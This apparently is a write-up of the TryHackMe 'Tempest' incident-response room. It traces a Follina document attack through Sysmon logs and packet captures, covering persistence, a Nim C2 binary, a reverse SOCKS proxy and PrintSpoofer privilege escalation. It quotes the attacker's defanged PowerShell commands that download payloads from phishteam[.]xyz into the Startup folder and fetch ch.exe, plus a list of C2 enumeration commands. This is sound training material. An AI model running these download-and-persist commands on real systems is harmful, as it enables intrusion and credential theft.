# TryHackMe Tempest Incident — Investigation Notes

Room: [Tempest](https://tryhackme.com/room/tempestincident)  

Focus: Endpoint and network investigation using Windows Event Logs, Sysmon and PCAP data

## Overview

In this room, I investigated an incident that began with a malicious Word document downloaded through Chrome. My goal was to reconstruct what happened after the document was opened and follow the activity through execution, persistence, command and control, credential discovery, tunnelling, privilege escalation and account manipulation.

The main challenge was correlating evidence from different sources instead of treating every event as an isolated log entry.

## Tools used

- EvtxECmd

- Timeline Explorer

- SysmonView

- Windows Event Viewer

- Wireshark

- CyberChef

- VirusTotal

## Initial Access

### 1) The user of this machine was compromised by a malicious document. What is the file name of the document?

First, I had to create the necessary file formats to use Timeline Explorer and SysmonView. For Timeline Explorer, I converted the `sysmon.evtx` file into a CSV file using EvtxECmd.
```powershell
.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csvf sysmon.csv
```

To use SysmonView, I opened the `sysmon.evtx` file and saved it in XML format.

The question mentioned that the file had a `.doc` extension and was downloaded through `chrome.exe`. Since I already had these two clues, I searched for `.doc` in Timeline Explorer.

The first event showed `chrome.exe` creating a `Zone.Identifier` alternate data stream for the downloaded document. The `HostUrl` field also showed where the file was downloaded from.



I also found a process creation event where `WINWORD.EXE` opened the same document from the user’s Downloads folder. This confirmed that it was the document involved in the attack.



### 2) What is the name of the compromised user and machine?

I checked the `User` and `Computer` fields in Timeline Explorer. These fields showed the name of the compromised user and the machine involved in the incident.



### 3) What is the PID of the Microsoft Word process that opened the malicious document?

I found this in the same log.



### 4) Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

To get this, I went to the SysmonView app and checked the `WINWORD.EXE` process tree. I checked the domain name for each DNS query mentioned there. I searched for `phishteam[.]xyz` in Timeline Explorer and got the DNS query and results.

In the next log, I also found a `FileCreateStreamHash` event (Sysmon Event ID 15) for the `free_magicules.doc` file.



### 5) What is the Base64-encoded string in the malicious payload executed by the document?

For this one, I first searched for process ID `496` as the parent process ID to find what happened after `WINWORD.EXE` opened `free_magicules.doc`. I searched for this in Timeline Explorer.

I clicked on the first log and found the Base64-encoded value.



I used CyberChef to decode it. The decoded command was also connected to the `phishteam[.]xyz` domain.

### 6) What is the CVE number of the exploit used by the attacker to achieve remote code execution?

I searched using the information I already had: `WINWORD.EXE` opened `free_magicules.doc`, and its process ID was `496`. I checked for events with `496` as the parent process ID and found a Base64-encoded command connected to `phishteam[.]xyz` that downloaded `update.zip`. The encoded command also looked like PowerShell code.

I then searched in ChatGPT by explaining that `WINWORD.EXE` opened a `.doc` file and then started downloading another file using PowerShell. This gave me the CVE ID and the name of the vulnerability, Follina.

From this, I learned about `msdt.exe` and the `ms-msdt` protocol, and how they are connected to this CVE.

## Malicious Document — Stage 2

### 7) The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

I searched for the filename `update.zip` in Timeline Explorer. I found a Sysmon Event ID 11 log for the file creation, which also showed the location where the file was created.



### 8) The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

According to the hint, I filtered the parent process as `explorer.exe` and the username as `TEMPEST\benimaru`. This showed the suspicious PowerShell activity.

The command I used was:



The suspicious command tried to download a file named `first.exe` from the same malicious domain, `phishteam[.]xyz`.

### 9) Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

If we follow process ID `9052` and check all the processes it created, we can filter by the parent process ID `9052` and Sysmon Event ID 1. This gives us the log containing the hash of the file.



### 10) The stage 2 payload downloaded establishes a connection to a C2 server. What is the domain and port used by the attacker?

First, I looked at the DNS query from the `first.exe` file and noted down the IP address.



I then checked if there was any network connection to the same IP after the DNS query. There was a network connection log just below the DNS query showing the same IP address.

## Command and Control

### 11) What is the URL of the malicious payload embedded in the document?

It took me some time to understand which document this question was referring to. I was looking at the URL for the C2 connection that happened after `first.exe` connected to the `resolvecyber[.]xyz` domain. However, this question was asking for the URL used by the `free_magicules.doc` file downloaded from the `phishteam[.]xyz` domain.

I filtered the IP address of the `phishteam[.]xyz` domain in Wireshark. The filter I used was:

`ip.addr == 167.71.199.191 and http`



I found suspicious requests being sent to the same URL using different HTTP methods such as POST, HEAD and GET. When I checked the GET request result, I could see the command that we had seen before to download the `update.zip` file.



### 12) What is the encoding used by the attacker on the C2 connection?

Here, we can see that the command is encoded in Base64 format. This command was already part of the previous question.
```powershell
$app=[Environment]::GetFolderPath('ApplicationData'); cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr hxxp[://]phishteam[.]xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

### 13) The malicious C2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?

I used the filter `ip.addr == 167.71.222.162 and http`. This is the IP address that the `first.exe` file connected to.



By reading the GET URL, we can see the encoded query. The destination IP is the same for all these requests.

### 14) The malicious C2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?

The URL that it continuously connected to was basically `hxxp[://]resolvecyber[.]xyz/9ab62b5`, with extra query parameters added after it.



### 15) What is the HTTP method used by the binary?

The binary mostly uses GET requests.

### 16) Based on the user agent, what programming language was used by the attacker to compile the binary?

I checked the details of `Nim httpclient/1.6.6` on the web and found out about the programming language.

## Credential Discovery and Tunnelling

### 17) The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered in the aforementioned file?

I used the Wireshark filter `ip.addr == 167.71.222.162 and http` to see the connection between `resolvecyber[.]xyz` and the host. I saw a common pattern where the C2 sent commands through a normal GET request to `167.71.222.162`.



The response to this request contained the command to run on the user’s system, which was encoded in Base64 format.



After that, another GET request was sent to the C2 with the results of the command included in the URL as a query.



The C2 ran the following commands until it found the password of the user `benimaru`:

`whoami` → `pwd` → `dir C:\Users` → `net users` → `net localgroup administrators` → `net user benimaru` → `dir C:\Users\benimaru\Documents` → `dir C:\Users\benimaru\Desktop` → `cat C:\Users\benimaru\Desktop\automation.ps1`

The final command contained the password of the user.

### 18) The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?

The C2 ran the command `netstat -ano -p tcp` to get information about the ports and services running on the user’s machine. By checking the ports that were open and in the `LISTENING` state, I could identify the required port. I searched the ports from the encoded data found in the Wireshark URL on Google.



### 19) The attacker then established a reverse SOCKS proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?

After the `netstat` command, the C2 ran the following PowerShell command to download `ch.exe`:
```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" iwr hxxp[://]phishteam[.]xyz/02dcf07/ch.exe -outfile C:\Users\benimaru\Downloads\ch.exe
```

After that, a reverse proxy was created using `ch.exe`. This can be seen in both the Sysmon process and Wireshark.



### 20) What is the SHA256 hash of the binary used by the attacker to establish the reverse SOCKS proxy connection?

In the Sysmon process for `ch.exe`, we can see the file hash.

### 21) What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.

If we search for the file hash in VirusTotal, we can get the answer. This file is heavily reported there as malicious.

### 22) The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the SOCKS proxy, what service did the attacker use to authenticate?

A Google search for port number `5985` revealed what the port is commonly used for, which gave me the answer.

## Privilege Escalation

### 23) After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?

As seen in the previous questions, a reverse SOCKS proxy connection was established through `ch.exe` to the IP address `167.71.199.191` on port `8080`. I used the Wireshark filter `ip.addr == 167.71.199.191 and tcp.port == 8080`.

I noticed that most of the connection used the WebSocket protocol, and the data was not in a human-readable format. I then checked Timeline Explorer and filtered by the username `TEMPEST\benimaru`.

I found another download after the execution of `ch.exe`. It connected to `phishteam[.]xyz` and downloaded a file named `spf.exe`. I checked its parent process and found that it was `wsmprovhost.exe`. It hosts commands executed through Windows Remote Management and PowerShell Remoting. This was suspicious because the threat actor had already established a reverse SOCKS proxy on the user’s machine.



### 24) Based on the SHA256 hash of the binary, what is the name of the tool used?

I searched for the SHA256 hash in VirusTotal and got information about the file. A total of 55 out of 70 vendors reported the file as malicious.

It also contains the answer to this question.



### 25) The tool exploits a specific privilege owned by the user. What is the name of the privilege?

I searched for `PrintSpoofer.exe` online and got the details from a Medium post.



### 26) Then, the attacker executed the tool with another binary to establish a C2 connection. What is the name of the binary?

I scrolled down a little and saw another file being downloaded by the same parent process, which was `4208`. Two logs later, the file was executed by `spf.exe`, which also had the same parent process ID of `4208`.

